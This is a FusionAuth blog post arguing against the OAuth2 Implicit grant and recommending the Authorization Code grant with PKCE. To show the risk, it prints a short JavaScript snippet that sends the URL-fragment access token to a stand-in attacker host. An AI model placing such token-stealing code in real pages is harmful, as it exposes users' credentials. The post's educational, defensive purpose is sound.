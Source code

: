 ```yaml
---
publish_date: 2021-04-29 
title: What's Wrong With the OAuth2 Implicit Grant?
description: OAuth2 specifies an Implicit grant. What's wrong with using it?
authors: Brian Pontarelli
image: /img/blogs/avoid-implicit-grant/oauth2-implicit-grant.svg
categories: Education
tags: oauth, standards, implicit grant
excerpt_separator: "{/* more */}"
---
```

The Implicit grant is part of the OAuth 2 RFC, but is [one of the features omitted in the OAuth 2.1 specification](/articles/oauth/differences-between-oauth-2-oauth-2-1). With this grant, you don't have to write server side code. Instead of having to exchange an authorization code for an access token, you are provided an access token on redirect.

{/* more */}

This is convenient if you are working in the JAMstack or in another situation where you don't want to run a server. 

However, it is horribly insecure, broken, deprecated, and should never, ever be used (ever). Okay, maybe that's being a bit dramatic, but please don't use this grant. The good folks behind the OAuth 2.1 draft agree, which is why they left it out of that new specification.

> The Implicit grant ("response_type=token") is omitted from this specification as per Section 2.1.2 of OAuth 2.0 Security Best Current Practices

## Run away

Instead of showing you how to use this grant, let's discuss why you should avoid it.

![Just a rabbit?](/img/blogs/avoid-implicit-grant/Rabbitattack.jpg)

The reason that it has been removed is that it skips an important step that allows you to secure the tokens you receive from the OAuth server. This step occurs when your application backend makes the call to the Token endpoint to retrieve the tokens.

Unlike the [Authorization Code grant](/docs/lifecycle/authenticate-users/oauth/#example-authorization-code-grant), the Implicit grant does not redirect the browser back to your application backend with an Authorization Code. Instead, it puts the access token directly on the URL as part of the redirect. These URLs look like this:

`https://piedpiper.com/#token-goes-here`

The token is added to the redirect URL after the `#` symbol. This places it in the fragment portion of the URL. What this means is that wherever the OAuth server redirects the browser to, the access token is accessible to any code running in the browser. In other words, to basically everyone.

To be more precise, the access token is accessible to any and all JavaScript that is running in the browser (including third party libraries). Since this token allows the browser to make API calls and web requests on behalf of the user, having this token be accessible to third-party code is extremely dangerous.

Let's take a dummy example of a single-page web application that uses the Implicit grant:

```html
// This is dummy code for a SPA that uses the access token
<html>
<head>
  <script type="text/javascript" src="/my-spa-code-1.0.0.js"></script>
  <script type="text/javascript" src="https://some-third-party-server.com/a-library-found-online-that-looked-cool-0.42.0.js"></script>
</head>
<body>
...
</body>
```

This HTML includes two JavaScript libraries:

* The code for the application itself (`my-spa-code-1.0.0.js`).
* A library we found online that did something cool and we just pulled it in (`a-library-found-online-that-looked-cool-0.42.0.js`).

Let's assume that our code is 100% secure and we don't have to worry about it. The library we pulled in, however, is an unknown quantity. 

This library may include other libraries as well. Remember, the DOM is dynamic. Any JavaScript can load any other JavaScript library simply by updating the DOM with `<script>` tags. Therefore, we have very little chance of ensuring every other line of code from third-party libraries is secure. 

After all, **do you** audit every JavaScript library and every dependency of each library every time you deploy your application? 

If a third-party library wanted to steal an access token from our dummy application, all it would need to do is run this code:

```javascript
if (window.location.hash.contains('access_token')) {
  fetch('http://steal-those-tokens.com/yummy?hash=' + window.location.hash);
}
```

Three lines of code and the access token has been stolen. As you can see, the risk of leaking tokens is far too high to ever consider using the Implicit grant. This is why we recommend no one ever use this grant.

## How to correctly use OAuth in a SPA

Well, if you are building an awesome React, Angular, Vue or other single page application, what should you use instead of the Implicit grant?

Use the Authorization Code grant! It's secure, safe, well tested, standardized and keeps tokens out of the URL.

In addition to using that grant, take these steps to secure your SPA OAuth flow:

* Use [PKCE](https://tools.ietf.org/html/rfc7636) in your SPA to make sure your application, which can't maintain a secure client secret, is not susceptible to an authorization code interception attack.
* Run a server. It needn't be complicated. In fact, it can be as simple as a few lines of node to exchange the authorization code for an access token. Here's [an example Node application](https://github.com/fusionauth/fusionauth-example-node). This is also known as the BFF, or Backend For a Frontend, pattern.
* Store access tokens out of reach of JavaScript in the browser. You could store them in a server side session, or in `secure`, `HttpOnly` cookies.

Want to learn more about the different OAuth grants? Check out [The Modern Guide to OAuth](/articles/oauth/modern-guide-to-oauth) for an in-depth look at all the different OAuth grants and how you might use them in the real world.

Happy coding!

_[Schedule a demo](/contact) to see how FusionAuth supports secure OAuth flows, including Authorization Code with PKCE, for your single-page applications._

